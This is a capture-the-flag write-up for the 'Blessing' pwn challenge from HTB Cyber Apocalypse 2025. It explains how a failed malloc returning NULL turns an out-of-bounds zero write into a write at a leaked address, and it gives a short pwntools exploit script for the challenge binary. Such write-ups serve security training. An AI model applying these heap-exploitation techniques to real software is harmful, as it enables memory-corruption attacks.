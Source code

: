 ```yaml
---
title: Blessing
date: 2025-03-26T03:00:19+03:00
description: Writeup for Blessing [HTB Cyber Apocalypse 2025]
type: writeup
author: PineBel
tags:
- pwn
draft: false
---
```

___

## Challenge Description
In the realm of Eldoria, where warriors roam, the Dragon's Heart they seek, from bytes to byte's home. Through exploits and tricks, they boldly dare, to conquer Eldoria, with skill and flair.

## Intuition

We get a binary that does a malloc of 0x30000.
After the malloc it sets the first byte from that malloc to 1.
We also get the pointer from malloc as a leak.
To read the flag we need to overwrite the 1 to 0.

**Vulnerability**:  After the leak we need to give an input which will be used in another malloc. This means that we control the size of the malloc, we can also write content to it but in this case it doesn't matter since we have this vulnerability:
```
*(undefined8 *)((long)my_malloc_ptr+ (my_malloc_len- 1)) = 0; ---> overflow of 7 bytes
```

## Solution

Initially I thought we should use a large enough malloc so that we mmap right before the first allocated chunk, but the closest I could get to the target chunk was 24 bytes because of alignment. So this doesn't seem like the solution.


```C
  my_malloc_ptr = malloc(my_malloc_len);
  ...
  *(undefined8 *)((long)my_malloc_ptr+ (my_malloc_len- 1)) = 0;
```

Malloc's behaviour when given a really large value will fail and return NULL.
So what happens if I give a really large value?

```C
  my_malloc_ptr = malloc(LARGE);
  ...
  *(undefined8 *)((long)NULL+ (LARGE- 1)) = 0;
```

So basically if we make malloc return `NULL` we can write those 0s at `LARGE-1`.

So the solution would be to just:
1. Get the leak
2. Since the leak is large, we can give it to malloc which will cause it to fail and write to leak - 1.

Solve:
```py
from pwn import *


target = process("./blessing_1")

target.recvuntil(b'is: ')
leak = int(target.recv(14), 16)
target.sendlineafter(b'th: ', str(leak).encode())
target.sendlineafter(b'ng: ', b'x')

target.interactive()
```





